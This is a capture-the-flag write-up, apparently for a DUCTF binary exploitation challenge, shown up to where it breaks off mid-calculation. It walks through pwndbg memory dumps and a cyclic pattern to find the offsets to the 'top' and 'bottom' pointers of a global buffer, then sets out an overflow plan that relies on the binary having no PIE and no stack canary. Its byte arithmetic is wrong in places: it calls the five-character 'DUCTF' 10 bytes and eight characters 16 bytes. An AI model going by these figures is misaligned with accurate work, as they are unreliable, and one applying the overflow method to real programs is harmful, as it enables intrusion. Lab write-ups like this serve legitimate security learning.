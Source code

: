 First examine the buffer before our input. Use command `x/14wx 0x4051e0 #buf`

```python
pwndbg> x/14wx 0x4051e0
0x4051e0 <buf>:	0x00000000	0x00000000	0x00000000	0x00000000
0x4051f0 <v>:	0x004182b0	0x00000000	0x004182b5	0x00000000
0x405200 <v+16>:	0x004182b5	0x00000000	0x00000000	0x00000000
0x405210:	0x00000000	0x00000000
```

Take note that at `0x4051f0` is the top pointer, at `0x4051f8` and `0x405200` are the bottom pointer. Using `pwntools` `cyclic 30`, this payload will be created:-

`aaaaaaaabaaaaaaacaaaaaaadaaaaa`

Continue the program and give the payload as input.

```python
Breakpoint 3, 0x00000000004013e1 in main ()
pwndbg> x/14wx 0x4051e0
0x4051e0 <buf>:	0x61616161	0x61616161	0x61616162	0x61616161
0x4051f0 <v>:	0x61616163	0x61616161	0x61616164	0x00006161
0x405200 <v+16>:	0x004182b5	0x00000000	0x00000000	0x00000000
0x405210:	0x00000000	0x00000000
```

Top pointer were overwrite by value `0x61616163` and bottom pointer were overwrite by value `0x61616164`. 

```python
pwndbg> cyclic -l 0x6161616161616163
Finding cyclic pattern of 8 bytes: b'caaaaaaa' (hex: 0x6361616161616161)
Found at offset 16
```

It needs 16 bytes of characters to reach top pointer, and another 8 bytes to reach bottom pointer.

### Attack Strategy

Initialy found that the binary is not PIE means the address of `buf` will stay the same. Additionally, buffer overflow can occur without triggering Stack Canary protection. With these findings, the attack strategy will be:-

1. Payload starts with `'DUCTF'` as wanted input from the program
2. Overflow the `buf`
3. Overwrite the top `v` pointer to the top of the `buf`
4. Overwrite the bottom `pointer` to the bottom of `'DUCTF'` to ensure the size is 5

## Implementation

In 64-bit program, address are in 8 bytes long, the payload need to be carefully crafted.

- Payload needs to have the value `'DUCTF'`, this is only 10 bytes, thus it needs another 6 bytes/3 characters to fit it perfectly. `'DUCTF\x00\x00\x00'`. 

`payload = 'DUCTF\x00\x00\x00'`

- The payload has 8 characters/16 bytes. To overflow the `buf`, 16 characters are needed. 16-8 = 8 
